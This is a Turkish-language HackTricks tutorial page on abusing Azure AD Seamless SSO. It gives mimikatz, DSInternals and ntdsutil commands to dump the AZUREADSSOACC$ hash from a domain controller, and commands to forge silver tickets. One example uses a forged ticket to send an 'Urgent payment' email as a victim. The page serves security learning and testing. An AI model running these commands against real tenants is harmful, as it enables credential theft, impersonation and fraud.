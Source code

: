 # Az - Seamless SSO

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## Temel Bilgiler

[Belgelerden:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO), **kurumsal cihazlarında** ve kurumsal ağınıza bağlı olduklarında kullanıcıları otomatik olarak **oturum açar**. Etkinleştirildiğinde, **kullanıcıların Azure AD'ye oturum açmak için şifrelerini girmeleri gerekmez** ve genellikle kullanıcı adlarını bile yazmaları gerekmez. Bu özellik, kullanıcılarınıza ek bir yerinde bileşen gerektirmeden bulut tabanlı uygulamalarınıza kolay erişim sağlar.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

Temel olarak Azure AD Seamless SSO, **kullanıcıları** **yerinde bir domain'e katılmış PC'de** olduklarında **oturum açar**.

Hem [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) hem de [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) tarafından desteklenir.

Masaüstü SSO, kimlik doğrulama için **Kerberos** kullanır. Konfigüre edildiğinde, Azure AD Connect, yerinde AD'de **AZUREADSSOACC`$` adlı bir bilgisayar hesabı** oluşturur. `AZUREADSSOACC$` hesabının şifresi, konfigürasyon sırasında **düz metin olarak Azure AD'ye gönderilir**.

**Kerberos biletleri**, şifrenin **NTHash (MD4)** kullanılarak **şifrelenir** ve Azure AD, biletleri şifresini çözmek için gönderilen şifreyi kullanır.

**Azure AD**, Kerberos **biletlerini** kabul eden bir **uç nokta** (https://autologon.microsoftazuread-sso.com) sunar. Domain'e katılmış makinenin tarayıcısı, SSO için bu uç noktaya biletleri iletir.

### Yerinde -> bulut

**`AZUREADSSOACC$` kullanıcısının şifresi asla değişmez**. Bu nedenle, bir domain yöneticisi bu hesabın **hash'ini ele geçirebilir** ve ardından **senkronize edilmiş herhangi bir yerinde kullanıcıyla** Azure'a bağlanmak için **gümüş biletler** oluşturmak için kullanabilir:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Elinizdeki hash ile artık **silver tickets oluşturabilirsiniz**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Gümüş bileti kullanmak için aşağıdaki adımlar uygulanmalıdır:

1. **Tarayıcıyı Başlatın:** Mozilla Firefox başlatılmalıdır.
2. **Tarayıcıyı Yapılandırın:**
* **`about:config`** adresine gidin.
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) tercihini belirtilen [değerlere](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) ayarlayın:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Web Uygulamasına Erişin:**
* Kuruluşun AAD domaini ile entegre edilmiş bir web uygulamasını ziyaret edin. Yaygın bir örnek [Office 365](https://portal.office.com/).
4. **Kimlik Doğrulama Süreci:**
* Giriş ekranında, kullanıcı adı girilmeli ve şifre alanı boş bırakılmalıdır.
* Devam etmek için TAB veya ENTER tuşuna basın.

{% hint style="success" %}
Bu, etkinleştirilmişse MFA'yı atlamaz
{% endhint %}

#### ~~Yalnızca bulut kullanıcıları için Kerberos biletleri oluşturma~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory yöneticileri Azure AD Connect'e erişebiliyorsa, herhangi bir bulut kullanıcısı için **SID ayarlayabilirler**. Bu şekilde Kerberos **biletleri yalnızca bulut kullanıcıları için de oluşturulabilir**. Tek gereklilik, SID'nin uygun bir [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) olmasıdır.

{% hint style="danger" %}
Yalnızca bulut yöneticisi kullanıcılarının SID'sini değiştirmek artık **Microsoft tarafından engellenmiştir**.\
Bilgi için [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/) adresine bakın.
{% endhint %}

### On-prem -> Cloud via Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Bu hesabın bulunduğu konteyner veya OU'daki bilgisayar hesaplarını (`AZUREADSSOACC$`) yönetebilen herkes, **hesap üzerinde kaynak tabanlı kısıtlı yetkilendirme yapılandırabilir ve erişebilir**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referanslar

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e** [**PR göndererek**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunarak hacking ipuçlarını paylaşın.

</details>
{% endhint %}
